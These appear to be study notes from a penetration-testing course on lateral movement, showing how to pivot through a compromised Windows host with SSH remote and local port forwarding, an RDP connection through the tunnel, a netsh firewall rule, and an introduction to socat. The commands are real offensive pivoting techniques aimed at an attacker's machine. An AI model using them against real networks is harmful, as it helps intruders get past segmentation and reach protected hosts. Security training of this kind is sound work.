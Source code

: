 Most of the lateral movement techniques we have presented require specific ports to be available for an attacker. In real-world networks, the administrators may have blocked some of these ports for security reasons or have implemented segmentation around the network, preventing you from reaching *SMB, RDP, WinRM or RPC ports*.

To go around these restrictions, we can use port forwarding techniques, which consist of *using any compromised host as a jump box to pivot to other hosts*. It is expected that some machines will have more network permissions than others, as every role in a business will have different needs in terms of what network services are required for day-to-day work.

## SSH Tunnelling
https://www.youtube.com/watch?v=N8f5zv9UUMI

The first protocol we'll be looking at is SSH, as it already has built-in functionality to do port forwarding through a feature called **SSH Tunneling**. While SSH used to be a protocol associated with Linux systems, Windows now ships with the OpenSSH client by default, so you can expect to find it in many systems nowadays, independent of their operating system.

SSH Tunnelling can be used in different ways to forward ports through an SSH connection, which we'll use depending on the situation. To explain each case, let's assume a scenario where we've gained control over the PC-1 machine (it doesn't need to be administrator access) and would like to use it as a pivot to access a port on another machine to which we can't directly connect. *We will start a tunnel from the PC-1 machine, acting as an SSH client, to the Attacker's PC, which will act as an SSH server*. The reason to do so is that you'll often find an SSH client on Windows machines, but no SSH server will be available most of the time.
	![](Pasted%20image%2020241118194131.png)
Since we'll be making a connection back to our attacker's machine, we'll want to create a user in it without access to any console for tunnelling and set a password to use for creating the tunnels:
```shell-session
useradd {tunneluser} -m -d {/home/tunneluser} -s /bin/true
passwd {tunneluser}
```

Depending on your needs, the SSH tunnel can be used to do either local or remote port forwarding. Let's take a look at each case:

### SSH Remote Port Forwarding
Let's assume that firewall policies *block the attacker's machine from directly accessing port 3389* on the server. If the attacker has previously compromised PC-1 and, in turn, *PC-1 has access to port 3389* of the server, it can be used to pivot to port 3389 using remote port forwarding from PC-1. 

**Remote port forwarding** allows you to take a reachable port from the SSH client (in this case, PC-1) and project it into a **remote** SSH server (the attacker's machine).
	![](Pasted%20image%2020241118194648.png)
A valid question that might pop up by this point is why we need port forwarding if we have compromised PC-1 and can run an RDP session directly from there. The answer is simple: in a situation where we only have console access to PC-1, we won't be able to use any RDP client as we don't have a GUI. By making the port available to your attacker's machine, you can use a Linux RDP client to connect. Similar situations arise when you want to run an exploit against a port that can't be reached directly, as your exploit may require a specific scripting language that may not always be available at machines you compromise along the way.

Referring to the previous image, to forward port 3389 on the server back to our attacker's machine, we can use the following command on PC-1:

```shell-session
C:\> ssh {tunneluser}@{1.1.1.1} -R {3389}:{3.3.3.3}:{3389} -N
```

This will establish an SSH session from PC-1 to `1.1.1.1` (Attacker PC) using the `tunneluser` user.
- Since the `tunneluser` isn't allowed to run a shell on the Attacker PC, we need to run the `ssh` command with the `-N` switch to prevent the client from requesting one, or the connection will exit immediately
- The `-R` switch is used to request a remote port forward, and the syntax requires us first to indicate the *port we will be opening at the SSH server* (3389), followed by a colon and then the *IP and port of the socket we'll be forwarding* (3.3.3.3:3389). 

Note:
    The port numbers don't need to match, although they do in this example.

The command itself won't output anything, but the tunnel will depend on the command to be running. Whenever we want, we can close the tunnel by pressing CTRL+C as with any other command.

Once our tunnel is set and running, we can go to the attacker's machine and RDP into the forwarded port to reach the server:

```shell-session
munra@attacker-pc$ xfreerdp /v:127.0.0.1 /u:{MyUser} /p:{MyPassword}
```

### SSH Local Port Forwarding
**Local port forwarding** allows us to "pull" a port from an SSH server into the SSH client. In our scenario, this could be used to take any service available in our attacker's machine and make it available through a port on PC-1. That way, any host that can't connect directly to the attacker's PC but can connect to PC-1 will now be able to reach the attacker's services through the pivot host.

Using this type of port forwarding would allow us to run reverse shells from hosts that normally wouldn't be able to connect back to us or simply make any service we want available to machines that have no direct connection to us.
	![](Pasted%20image%2020241118195945.png)

To forward port 80 from the attacker's machine and make it available from PC-1, we can run the following command on PC-1:

```shell-session
C:\> ssh {tunneluser}@{1.1.1.1} -L *:{80}:{127.0.0.1}:80 -N
```

The command structure is similar to the one used in remote port forwarding but uses the `-L` option for local port forwarding. This option requires us to indicate the local socket used by PC-1 to receive connections (`*:80`) and the remote socket to connect to from the attacker's PC perspective (`127.0.0.1:80`).

Notice that we use the IP address 127.0.0.1 in the second socket, as from the attacker's PC perspective, that's the host that holds the port 80 to be forwarded.

Since we are opening a new port on PC-1, we might need to add a firewall rule to allow for incoming connections (with `dir=in`). *Administrative privileges are needed for this:*

```shell-session
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
```

Once your tunnel is set up, any user pointing their browsers to PC-1 at `http://2.2.2.2:80` and see the website published by the attacker's machine.


# Port Forwarding With socat
In situations where SSH is not available, socat can be used to perform similar functionality. While not as flexible as SSH, socat allows you to forward ports in a much simpler way. One of the disadvantages of using socat is that we need to transfer it to the pivot host (PC-1 in our current example), making it more detectable than SSH, but it might be worth a try where no other option is available.

